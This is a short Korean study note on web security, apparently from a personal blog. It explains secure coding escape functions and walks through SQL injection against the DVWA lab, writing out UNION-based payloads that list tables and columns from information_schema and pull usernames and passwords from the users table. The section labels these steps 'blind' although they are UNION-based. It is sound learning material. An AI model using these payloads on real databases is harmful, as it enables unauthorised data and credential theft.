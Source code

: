 

### Secure Coding 함수

SQL Injection 공격을 다 막기 위해서는 #, =, <, >, ', " 등을 모두 막아야한다.

공격 방어를 쉽게 해주는 것이 Secure Coding 함수. DBMS 에서 제공.

<span style="color:skyblue">e.g.</span> mysqli_real_escape_string()

# SQL Injection (Blind)

물어보거나 에러를 유발시켜서 DB명, Table명, Column명을 알아내어 새로운 SQL문을 만들어내는 것.

**1단계) DB 정보 알아내기**

<span style="color:orange">database()</span> : DB명 조회 함수

<span style="color:orange">version()</span> : 버전 확인

<span style="color:orange">user()</span> : 사용자 이름

<span style="color:orange">@@version</span> : 버전 확인

<br/>

**2단계) Table명 알아내기**

information_schema라는 DB에 저장되어 있음.

' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='dvwa' #

<br/>

**3단계) Column명 알아내기**

' union select column_name, null from information_schema.columns WHERE table_name='users' #

<br/>

**4단계) 원하는 정보 알아내기**

' union select user, password from users #

![image-20220208134107362](../../assets/images/2022-02-08-web-secure/image-20220208134107362.png)
